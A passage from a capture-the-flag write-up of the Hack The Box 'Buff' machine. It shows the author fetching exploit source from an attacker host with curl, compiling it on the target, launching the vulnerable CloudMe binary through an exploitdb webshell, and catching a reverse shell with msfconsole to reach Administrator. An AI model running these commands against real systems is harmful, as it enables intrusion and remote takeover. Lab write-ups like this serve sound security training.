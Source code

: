 ## Uploading the Exploit

We could echo the exploit line-by-line into a file, but that would be annoying. I used the builtin "where" command to look for some common options, and found that "curl" is installed on the box:

    C:\xampp\htdocs\gym\upload> where wget curl nc ncat netcat telnet ftp ssh scp putty pscp
    �PNG
    ▒
    C:\Windows\System32\curl.exe
    C:\Windows\System32\ftp.exe
    C:\Windows\System32\OpenSSH\ssh.exe
    C:\Windows\System32\OpenSSH\scp.exe

With that, we can easily setup a python HTTP server and upload our exploit source to the target:

    C:\xampp\htdocs\gym\upload> curl -O http://10.10.15.1/t.cs
    
And now, compile/remove source:

    C:\xampp\htdocs\gym\upload> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe t.cs
    C:\xampp\htdocs\gym\upload> del t.cs


## Catching the Exploit

We can use msfconsole to setup a listener and catch our reverse shell:

![htb_buff_msfconsole](https://github.com/guffre.github.io/assets/images/htb_buff_msfconsole.png)

Now all thats left is to run the vulnerable CloudMe executable:

    root@kali:/htb/198_Buff# python2 /usr/share/exploitdb/exploits/php/webapps/48506.py http://10.10.10.198:8080/
    [+] Successfully connected to webshell.
    C:\xampp\htdocs\gym\upload> cmd /c C:\\Users\\shaun\\Downloads\\CloudMe_1112.exe

And on a seperate webshell, run our exploit code. Of note, sometimes the box would take a minute before listening on the port, so the exploit might need to be ran a few times:

    C:\xampp\htdocs\gym\upload> t.exe

Then, switching over to the msfconsole we should see our exploit connecting.

    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 0.0.0.0:7000 
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.10.10.198
    [*] Command shell session 1 opened (10.10.15.1:7000 -> 10.10.10.198:49692) at 2020-10-11 22:24:31 -0400



    C:\Windows\system32>whoami
    buff/Administrator

That is admin access, so this box is complete!
